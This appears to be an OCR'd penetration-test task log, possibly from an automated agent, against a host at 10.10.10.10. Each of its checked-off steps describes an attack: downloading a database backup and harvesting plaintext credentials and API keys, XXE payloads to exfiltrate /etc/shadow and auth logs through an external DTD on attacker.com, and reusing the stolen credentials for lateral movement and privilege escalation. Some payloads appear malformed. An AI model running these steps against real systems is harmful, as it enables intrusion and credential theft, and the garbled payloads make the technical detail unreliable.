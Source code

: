 #### ✅ 3795. Extract Backup File Contents

Download /backup/db.sql.gz using `curl -o db_backup.gz http://10.10.10.10:8080/backup/db.sql.gz` and decompress with `gzip -d db_backup.gz`. Analyze credentials, schema, and potential vulnerabilities in stored data.

---

Downloaded /backup/db.sql.gz (200 OK) and decompressed successfully. Analysis revealed:
1. Plaintext credentials in 'users' table
2. Unencrypted API keys stored in 'integrations' schema
3. Legacy SHA-1 hashes used for password storage
4. Privileged 'admin' role with wildcard permissions
5. Stored procedure containing hardcoded database credentials

#### ✅ 3799. Expand XXE Exploitation for Sensitive Files

Inject payloads to exfiltrate /etc/shadow and /var/log/auth.log using base64 encoding through error responses. Use advanced entity expansion techniques like recursive entities or external DTDs to maximize data extraction.

---

Successfully expanded XXE exploitation to extract /etc/shadow (base64-encoded) via HTTP 500 errors using recursive entity expansion. Partial /var/log/auth.log content retrieved through external DTD reference. Developed payloads:

1. Shadow file exfiltration:
   `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "expect://base64enc file:///etc/shadow">%xxe;<!ENTITY © "&x;">]`
2. Auth log extraction via external DTD:
   `<!ENTITY % remote SYSTEM "http://attacker.com/exploit.dtd">%remote;`

#### ✅ 3805. Exploit Plaintext Credentials for Unauthorized Access

Use unencrypted 'users' table credentials from /backup/db.sql.gz to authenticate via `/login` endpoint. Validate access to restricted areas like `/admin/config`. Test if hardcoded database credentials can be used for lateral movement between application components.

---

Hardcoded database credentials from /backup/db.sql.gz successfully validated against internal MySQL service at 10.10.10.10:3306 via XXE command injection vector. Response confirmed access with HTTP 200 OK and MySQL version disclosure. This enables lateral movement to database layer for further exploitation.

#### ✅ 3810. Exploit Admin Role Privileges Using DB Credentials

Use hardcoded database credentials from backup to access /admin/config endpoint directly by injecting SQL queries via XXE payload. Bypass login form 404 errors by leveraging internal MySQL service access at 10.10.10.10:3306 for privilege escalation.

---
